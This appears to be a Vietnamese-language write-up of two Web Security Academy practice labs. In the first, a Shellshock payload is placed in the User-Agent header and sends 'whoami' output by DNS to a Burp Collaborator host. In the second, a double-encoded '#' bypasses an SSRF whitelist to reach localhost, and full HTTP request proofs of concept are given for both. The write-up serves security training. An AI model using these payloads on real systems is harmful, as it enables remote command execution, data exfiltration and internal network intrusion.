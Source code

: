 


### Lab: Blind SSRF with Shellshock exploitation

- Sử dụng Burp Collaborator + shellshock

    ```
    () { :; }; /bin/nslookup $(whoami).c8l36qt5b2ijpw0w9hz1956wcnie64ut.oastify.com
    ```

- Brute dải ip 192.168.0.X/24, poll về Burp Collaborator

- PoC

    ```
    GET /product?productId=1 HTTP/2
    Host: 0a4100a803d9d75d80374e1200ee002d.web-security-academy.net
    Cookie: session=7GkfQCYn4FAuKMTR2yNy7OLkOaopCQQU
    Sec-Ch-Ua: "Not.A/Brand";v="99", "Chromium";v="136"
    Sec-Ch-Ua-Mobile: ?0
    Sec-Ch-Ua-Platform: "Windows"
    Accept-Language: en-US,en;q=0.9
    Upgrade-Insecure-Requests: 1
    User-Agent: () { :; }; /bin/nslookup $(whoami).c8l36qt5b2ijpw0w9hz1956wcnie64ut.oastify.com
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: navigate
    Sec-Fetch-User: ?1
    Sec-Fetch-Dest: document
    Referer: http://192.168.0.1:8080/
    Accept-Encoding: gzip, deflate, br
    Priority: u=0, i
    ```


### Lab: SSRF with whitelist-based input filter

- Thử payload SSRF cơ bản ở phần check stockapi nhưng bị chặn
    ```text
    "External stock check host must be stock.weliketoshop.net"
    ```
    - Thử bypass bằng `#`, encode 2 lần để thành `%2523`


- PoC
    ```
    POST /product/stock HTTP/2
    Host: 0a7e000f0485708680176cd9008f0081.web-security-academy.net
    Cookie: session=koNwfKAKsd1Ys3UrpUjZf0WdTR3LeEtS
    Content-Length: 54
    Sec-Ch-Ua-Platform: "Windows"
    Accept-Language: en-US,en;q=0.9
    Sec-Ch-Ua: "Not.A/Brand";v="99", "Chromium";v="136"
    Content-Type: application/x-www-form-urlencoded
    Sec-Ch-Ua-Mobile: ?0
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
    Accept: */*
    Origin: https://0a7e000f0485708680176cd9008f0081.web-security-academy.net
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: cors
    Sec-Fetch-Dest: empty
    Referer: https://0a7e000f0485708680176cd9008f0081.web-security-academy.net/product?productId=1
    Accept-Encoding: gzip, deflate, br
    Priority: u=1, i

    stockApi=http://localhost%2523@stock.weliketoshop.net/
    ```

    ![alt text](image.png)

    - Xóa carlos

    ![alt text](image-1.png)